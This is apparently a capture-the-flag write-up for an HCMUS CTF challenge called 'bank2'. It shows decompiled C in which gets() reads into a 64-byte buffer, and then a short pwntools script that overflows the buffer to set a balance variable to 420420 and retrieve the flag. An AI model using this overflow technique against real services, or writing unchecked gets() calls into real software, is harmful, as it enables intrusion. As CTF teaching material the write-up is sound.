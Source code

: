 ## bank2 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30203

author: xikhud
```

Decompile `bank2` with IDA:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 420420 )
    getFlag();
}
```

```cpp
void getFlag()
{
  system("cat flag.txt");
}
```

We exploit buffer overflow to overwrite `balance` with 420420 to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30203)
conn.sendlineafter("name:", b'a' * 64 + p32(420420))
conn.interactive()
```

**Flag:** `HCMUS-CTF{little_endian_is_fun}`
